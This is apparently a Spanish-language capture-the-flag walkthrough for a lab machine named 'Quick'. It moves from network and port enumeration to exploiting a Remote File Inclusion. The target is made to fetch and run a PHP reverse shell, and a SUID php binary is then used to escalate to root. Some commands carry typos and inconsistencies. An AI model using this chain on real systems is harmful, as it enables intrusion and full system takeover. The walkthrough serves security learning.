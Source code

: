 ## MAQUINA QUICK

Usamos la herramienta "netdiscover" para ver las maquinas conectadas en nuestra red

```console

>netdicover -i eth0 -r 192.x.x.x/24

```

Una vez que tengamos la ip, con nmap vamos a enumerar los puertos y servicios abiertos de la misma.

```console

>nmap -p- -open -sV -sC "ip" -oN TARGET

PORT
80/tcp open http

"STATE SERVICE VERSION
Apache httpd 2.4.41 ((Ubuntu))
l_http-server-header: Apache/2.4.41 (Ubuntu)
l_http-title: Quick Automative
MAC Address: 08:00:27:41:D3:56 (Oracle VirtualBox virtual NIC)"
```

Como tenemos el puerto 80 disponible ingresamos a la pagina web.

Usamos nikto para ver si hay alguna vulnerabilidad en la web.

```console

>nikto -h "ip"

/index.php?page=http://blog.cirt.net/rfiinc.txt ?: Remote File Inclusion (RFI)
```

Tenemos una posible vuln. en la web, se trata de un RFI (remote-file-inclusion).

Aca lo que vamos a hacer es subir una RV (revershell.php) de pentestmokey a la maquina victima creando un servidor python.

```console
python3 -m http.server
```

Seguido nos ponemos en escucha con netcat al puerto que colocamos en la RV.
```console
nc -nlvp 1234
```

Ahora realizamos lo siguiente: 

Vamos a la URL de la pagina y colocamos nuestra ip + la revershell pentest monkey (http://$IP/revershell)(sin la extension).

Bien si todo salio excelente somos el usuario www-data, ahora realizamos el tratamiento de la tty:

```console
$ script /dev/null -c bash
Script started, file is /dev/null

www-data@host:/$ ^Z
zsh: suspended  nc -nlvp 1234

~$> stty raw -echo; fg

[1]  + continued  nc -nlvp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@host:/$ export TERM=xterm
www-data@host:/$ export SHELL=bash
```

Luego vemos que permisos SUID tenemos con el siguiente formato.

```console
find / -user root -perm /4000 2>/dev/null
```
Y como resultado tenemos un archivo:

```console
/usr/bin/php7.0
```

En gtfobins encontramos la manera de escalar priv.
```console
sudo install -m =xs $(which php) .

CMD="/bin/sh"
./php -r "pcntl exec('/bin/sh', ['-p']);"

```

Y listo somo User root
